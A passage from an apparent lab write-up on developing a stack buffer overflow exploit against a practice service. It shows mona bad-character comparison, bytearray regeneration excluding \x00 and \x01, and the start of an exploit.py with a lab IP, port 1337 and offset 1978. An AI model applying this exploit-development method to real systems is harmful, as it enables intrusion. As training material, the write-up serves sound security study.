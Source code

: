 There we go, our address is:

```
0x0018F430
```

Now, we can use mona;

```
!mona compare -f C:\mona\oscp\bytearray.bin -a 0x0018F430
```

![Pasted image 20250529124830.png](../../IMAGES/Pasted%20image%2020250529124830.png)

Mona is telling us `\x01` is mangled in memory, we need to regenerate the bytearray excluding `\x00` and `\x01`:

```
!mona bytearray -b "\x00\x01"
```

On `exploit.py` we need to remove `\x01` too:

```python
import socket

ip = "10.10.199.216"
port = 1337

prefix = "OVERFLOW1 "
offset = 1978
overflow= "A" * offset
retn = "BBBB"
padding = ""
```